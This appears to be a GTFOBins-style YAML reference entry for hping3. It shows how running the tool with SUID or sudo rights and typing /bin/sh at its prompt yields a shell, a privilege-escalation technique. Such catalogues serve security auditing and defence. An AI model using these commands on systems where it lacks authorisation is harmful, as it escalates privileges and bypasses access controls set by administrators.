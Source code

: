 ```yaml
---
functions:
  suid:
    - description: If you run hping3 without any arguments, it can be used to execute shell commands.
      code: |
        hping3
        hping3> /bin/sh
  sudo:
    - description: If you run hping3 without any arguments, it can be used to execute shell commands.
      code: |
        sudo hping3
        hping3> /bin/sh
---
```

